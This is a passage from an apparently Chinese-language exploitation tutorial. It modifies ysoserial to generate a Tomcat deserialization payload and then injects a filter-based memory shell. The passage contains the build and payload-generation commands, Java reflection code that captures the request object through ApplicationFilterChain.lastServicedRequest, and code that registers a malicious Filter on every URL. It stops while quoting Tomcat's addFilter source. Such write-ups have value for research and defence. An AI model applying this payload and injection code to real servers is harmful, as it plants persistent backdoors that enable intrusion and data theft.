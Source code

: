 并且，对ysoserial的main入口做一点小修改，因为原来的代码规定必须要有payload的入参，而我们这里不需要了

ysoserial.GeneratePayload#main：


```
if (args.length < 1) {
    printUsage();
    System.exit(USAGE_CODE);
}
```

在ysoserial执行maven指令生成jar包


```bash
mvn clean -Dmaven.test.skip=true compile assembly:assembly
```

这样，我们就能使用这个新的payload（CommonsCollections11ForTomcatEchoInject）了


```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatEchoInject > ~/tmp/TomcatShellInject.ysoserial
```

**步骤二**

在使用步骤一生成的序列化数据进行反序列化攻击后，我们就能通过下面这段代码获取到request和response对象了


```java
java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
f.setAccessible(true);
ThreadLocal t = (ThreadLocal) f.get(null);
//不为空则意味着第一次反序列化的准备工作已成功
ServletRequest servletRequest = (ServletRequest) t.get()
```

接着，我们要做的就是动态注册Filter到tomcat中，参考《[动态注册之Servlet+Filter+Listener](https://www.jianshu.com/p/cbe1c3174d41)》，可以看到，其中通过ServletContext对象（实际获取的是ApplicationContext，是ServletContext的实现，因为门面模式的使用，后面需要提取实际实现），实现了动态注册Filter


```java
javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("threedr3am", threedr3am);
filterRegistration.setInitParameter("encoding", "utf-8");
filterRegistration.setAsyncSupported(false);
filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"});
```

然而实际上并不管用，为什么呢？


```java
private Dynamic addFilter(String filterName, String filterClass, Filter filter) throws IllegalStateException {
    if (filterName != null && !filterName.equals("")) {
      if (!this.context.getState().equals(LifecycleState.STARTING_PREP)) {
        throw new IllegalStateException(sm.getString("applicationContext.addFilter.ise", new Object[]{this.getContextPath()}));
      } else {
        FilterDef filterDef = this.context.findFilterDef(filterName);
        if (filterDef == null) {
          filterDef = new FilterDef();
          filterDef.setFilterName(filterName);
          this.context.addFilterDef(filterDef);
        } else if (filterDef.getFilterName() != null && filterDef.getFilterClass() != null) {
          return null;
        }
```